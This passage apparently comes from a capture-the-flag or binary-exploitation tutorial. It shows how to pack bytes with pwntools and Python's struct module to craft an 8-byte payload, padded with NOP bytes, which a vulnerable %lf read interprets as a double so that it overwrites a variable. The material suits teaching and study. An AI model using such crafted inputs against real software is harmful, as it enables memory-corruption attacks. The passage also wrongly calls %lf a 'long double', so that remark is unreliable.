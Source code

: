 ```
>>> from binascii import hexlify
>>> p16(13337)
b'\x194'
>>> hexlify(p16(13337))
b'1934'
```

So, the first two bytes are *0x1934*. Recall that the format specifier *%lf* refers to a *long double*, which is 64 bits, or 8 bytes. This leaves 6 bytes remaining.

For now, we just want to focus on setting *d*, so only the first two bytes in the payload are relevant. The remaining six bytes can just be NOP characters, encoded as *0x90*. We can construct the payload in the correct format:

```
>>> hexlify(p16(13337) + b'\x90\x90\x90\x90\x90\x90')
b'1934909090909090'
```

Thus, if we send *0x1934909090909090* as a double, we should be able to set *d* to *0x3419*, or *13337*. 

As an exercise, you could do this conversion manually, but you'll need to note a few things things. First, recall that the application will read this value "backwards," so you'll need to work with the value *0x9090909090903419*. Second, you'll need to review (or teach yourself) [how floating-point values are stored in memory](https://towardsdatascience.com/binary-representation-of-the-floating-point-numbers-77d7364723f1) and, thus, in *binary*. You could also use an [hex-to-double converter](https://www.binaryconvert.com/result_double.html?hexadecimal=9090909090903419), making sure to provide the "reversed" number.

However, in Python, we can just use the *unpack* method. Per the documentation:

> Unpack from the buffer *buffer* (presumably packed by `pack(format, ...)`) according to the format string *format*. 

We can look up the format string for a *double* in the official docs: https://docs.python.org/3/library/struct.html#format-characters. In this case, a double has the format string *d*, and defaults to an 8-byte value. This should be sufficient for our payload.

```
>>> struct.unpack('d', p16(13337) + b'\x90\x90\x90\x90\x90\x90')
(-6.828527034388119e-229,)
```

Note that the result is a tuple. This is explicit in the docs:

> The result is a tuple even if it contains exactly one item. 

Since we are only operating on one value, we can take it from the resultant tuple, and convert that value to a string.

```
>>> struct.unpack('d', p16(13337) + b'\x90\x90\x90\x90\x90\x90')[0]
-6.828527034388119e-229
>>> str(struct.unpack('d', p16(13337) + b'\x90\x90\x90\x90\x90\x90')[0])
'-6.828527034388119e-229'
```
